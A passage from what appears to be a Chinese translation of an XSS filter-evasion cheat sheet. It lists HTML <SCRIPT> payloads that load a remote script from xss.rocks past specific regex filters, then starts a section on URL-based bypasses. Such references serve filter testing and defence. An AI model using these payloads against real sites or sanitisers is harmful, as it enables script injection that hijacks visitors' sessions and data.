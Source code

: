 ``` {.html}
<SCRIPT a=">" '' SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

------------------------------------------------------------------------

又一个绕过正则过滤`/<script((\s+\w+(\s*=\s*(?:"(.)*?"|'(.)*?'|[^'">\s]+))?)+\s*|\s*)sr c/i`的
XSS。尽管不想提及防御方法，但如果你想允许`<SCRIPT>`标签但不加载远程脚本，针对这种
XSS
只能使用状态机去防御（当然如果允许`<SCRIPT>`标签的话，还有其他方法绕过）：
(有效)

``` {.html}
<SCRIPT "a='>'" SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

------------------------------------------------------------------------

最后一个绕过此正则过滤`/<script((\s+\w+(\s*=\s*(?:"(.)*?"|'(.)*?'|[^'">\s]+))?)+\s*|\ s*)SRC/i`的
XSS，使用了重音符（在 Firefox 下无效）： (无效)

``` {.html}
<script a="`">
    ` SRC="httx://xss.rocks/xss.js">
</script>
```

------------------------------------------------------------------------

这是一个 XSS
样例，用来绕过那些不会检查引号配对，而是发现任何引号就立即结束参数字符串的正则表达式：
(有效)

``` {.html}
<script a=">'>" src="httx://xss.rocks/xss.js"></script>
```

------------------------------------------------------------------------

这个 XSS 很让人担心，因为如果不过滤所有活动内容几乎不可能防止此攻击：
(有效)

``` {.html}
<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="httx://xss.rocks/xss.js"></SCRIPT>
```

### 2.82 URL 字符绕过

假定"http://www.google.com/"是不被允许的：

(应换成当前 google 对应的 ip，此处原文 ip 地址 已失效，demo 以 google
域名对应 即时 ip 及其编码为准-海秋)

#### 2.82.1. IP 代替域名(有效)

``` {.html}
<a href="http://66.102.7.147/">XSS</a>
```

#### 2.82.2. URL 编码(有效)
